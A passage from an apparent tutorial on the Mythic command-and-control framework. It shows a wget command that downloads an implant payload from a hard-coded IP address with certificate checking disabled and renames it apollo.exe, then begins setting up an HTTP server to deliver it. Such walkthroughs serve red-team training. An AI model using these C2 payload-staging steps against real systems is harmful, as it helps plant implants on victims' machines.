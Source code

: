 ```bash
wget https://45.77.53.41:7443/direct/download/34ce1813-32d4-484f-99c3-2633a9ea7cb9 --no-check-certificate
```

![download2](Screenshots/mythicpayload8download2.png)

Since it creates a very long filename (`34ce1813-32d4-484f-99c3-2633a9ea7cb9`), let's rename it to `apollo.exe` or any name you prefer with this command:

```bash
mv 34ce1813-32d4-484f-99c3-2633a9ea7cb9 apollo.exe
```

![changename](Screenshots/mythicpayload9changename.png)

Let's create a new directory and move the `apollo.exe` file inside it.

![changedirectory](Screenshots/mythicpayload99makedir.png)

### 9. Setting Up HTTP Server and Downloading Payload:
Start an HTTP server on the Mythic server:
